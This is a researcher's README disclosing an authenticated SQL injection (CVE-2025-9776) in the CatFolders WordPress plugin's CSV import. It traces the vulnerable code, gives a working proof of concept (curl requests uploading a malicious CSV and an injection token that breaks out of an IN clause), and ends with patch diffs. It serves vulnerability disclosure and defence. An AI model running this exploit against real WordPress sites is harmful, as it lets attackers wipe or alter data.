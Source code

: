 # CVE-2025-9776 — CatFolders WordPress Plugin: Authenticated SQL Injection via CSV Import

**Researcher:** Snailsploit (https://snailsploit.com)  
**CVE:** [CVE-2025-9776](https://www.cve.org/CVERecord?id=CVE-2025-9776)  
**Advisory:** Wordfence — CatFolders ≤ 2.5.2 Authenticated (Author) SQL Injection via CSV Import  
(https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/catfolders/catfolders-tame-your-wordpress-media-library-by-category-252-authenticated-author-sql-injection-via-csv-import)

---

## Summary

An **authenticated SQL Injection** exists in **CatFolders – Tame Your WordPress Media Library by Category** (`catfolders`) within the **CSV import** path.  
The `attachments` column from a user-supplied CSV is split into a list and passed directly to `FolderModel::set_attachments()` which concatenates those values into raw SQL `IN (...)` clauses.

- **Affected versions:** ≤ **2.5.2** (per Wordfence advisory; see link above)
- **CWE:** CWE-89 (SQL Injection)
- **Privileges required:** `upload_files` (Author+ by default)
- **Impact:** Integrity/Availability — mass deletion or manipulation of folder–attachment mappings; data exposure depends on payload/DB.

**Links**
- MITRE CVE: https://www.cve.org/CVERecord?id=CVE-2025-9776  
- Wordfence Advisory: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/catfolders/catfolders-tame-your-wordpress-media-library-by-category-252-authenticated-author-sql-injection-via-csv-import  
- Researcher site: https://snailsploit.com

---

## Technical Walkthrough (How I Found It)

1. Reviewed REST controllers handling bulk input: `includes/Rest/Controllers/ImportController.php`.
2. In `import_csv`, the uploaded CSV is parsed into `$data` without per-field sanitization.
3. `restore_folders()` calls:
   ```php
   FolderModel::set_attachments( $new_folder['id'], explode(',', $folder['attachments']), false );
   ```
4. In `includes/Models/FolderModel.php`, `set_attachments()` builds raw SQL using `implode(',', $imgIds)`, e.g.:
   ```php
   'raw' => 'post_id IN (' . $attachmentIds . ')'
   ```
5. Because each element is **not cast to integer** nor parameterized, a token like `1) OR 1=1--` breaks out of the `IN(...)` list and alters the query semantics.

---

## Proof of Concept (HTTP)

Prerequisites: an **Author** (or higher) account on a target WordPress site that has CatFolders installed.

1) Discover the REST namespace that exposes `/import-csv` (e.g., `/catf/v1`):
```bash
curl -s https://target.site/wp-json | jq -r '.routes | keys[]' | grep '/import-csv$'
```

2) Use the malicious CSV from `poc/catf_inject.csv` and submit:
```bash
NS="/catf/v1"   # replace with discovered namespace
curl -i -u 'author_user:APPLICATION_PASSWORD'   -F "file=@poc/catf_inject.csv;type=text/csv"   -X POST "https://target.site/wp-json${NS}/import-csv"
```

**Expected response:** `{ "success": true }`

**What happens internally:** the server constructs SQL like:
```sql
SELECT folder_id FROM wp_catf_folder_posts WHERE post_id IN (1) OR 1=1--)
```
and may perform broader DELETE/INSERT operations than intended, often **wiping relationships**.

> **Ethics:** Test only on systems you own or have explicit permission to assess.

---

## Safe Local Demo (No WordPress Needed)

Run the standalone SQLite simulation to observe the same failure mode safely:

```bash
python3 poc/catfolders_sql_poc.py
```

It prints the vulnerable query and shows how a malicious token returns **all rows**, while the parameterized version rejects it.

---

## Patching (Defensive Fix)

Two minimal hardening steps (see `patch/catfolders_fix.patch`):

1. **Sanitize IDs before calling the model:**
```diff
- FolderModel::set_attachments( $new_folder['id'], explode(',', $folder['attachments']), false );
+ $ids = array_filter( array_map( 'intval', explode(',', $folder['attachments']) ) );
+ if ( ! empty( $ids ) ) {
+     FolderModel::set_attachments( (int) $new_folder['id'], $ids, false );
+ }
```

2. **Enforce integers inside `set_attachments()`:**
```diff
- $imgIds = apply_filters( 'catf_attachment_ids_to_folder', $imgIds );
+ $imgIds = apply_filters( 'catf_attachment_ids_to_folder', $imgIds );
+ $imgIds = array_values( array_filter( array_map( 'intval', (array) $imgIds ) ) );
```

**Stronger recommendation:** replace **all** raw concatenation with **parameterized queries** (e.g., `$wpdb->prepare()`), and validate CSV fields strictly.

---

## Disclosure / Timeline

See [`disclosure/timeline.md`](./disclosure/timeline.md).

---

## License & Intended Use

This PoC is provided for **defensive research and education**.  
Do not test against systems without explicit authorization. Use at your own risk.

— **Snailsploit** (https://snailsploit.com)
